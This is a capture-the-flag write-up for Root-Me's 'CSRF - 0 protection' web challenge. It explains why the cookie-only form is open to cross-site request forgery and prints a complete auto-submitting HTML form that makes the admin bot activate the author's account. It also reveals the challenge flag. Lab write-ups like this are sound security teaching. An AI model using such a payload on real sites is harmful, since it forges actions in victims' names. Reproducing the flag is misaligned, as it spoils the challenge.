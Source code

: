 # CSRF - 0 protection

**Point**: 35 Points 

## Solution:

This is a basic CSRF vulnerability. Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159604050-ebe23dce-fbd6-4f24-9377-006d78f291fb.png" ></p>

Only **admin** can do this action. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605145-6f1167f6-4b58-4b74-bac5-cba9448f3a1f.png" ></p>

This meet requirements for CSRF:
- Only **cookie** use to identify user
- **Origin** and **Referer**. We use form with POST request to send data, we can bypass this

We could make **administrator** do the activation for us. Constructing a auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605827-cfb26c6c-f62d-4864-a8d2-a7010b0ee6ee.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set an `id=form` for easy **querySelector**, there's 1 form so we can confidently name any id  
- Set `action` to "http://challenge01.root-me.org/web-client/ch22/?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Your email: khangtictoc@gmail.com (arbitrary string)
Comment:

```html
<html>
  <body>
      <form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" id="form" enctype="multipart/form-data">
		    <div class="form-group">
		    <label>Username:</label>
		    <input type="text" name="username" value="khangtictoc">
		    </div>
		    <br>		
		    <div class="form-group">
		    <label>Status:</label>
		    <input type="checkbox" name="status" checked>
		    </div>
		    <br>	
        <button type="submit">Submit</button>
	    </form>
    <script>document.getElementById("form").submit(); </script>
    <body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159609361-00cc5132-5e08-4e9b-a98d-3f58e733f6ea.png" ></p>

Flag: **Csrf_Fr33style-L3v3l1!**
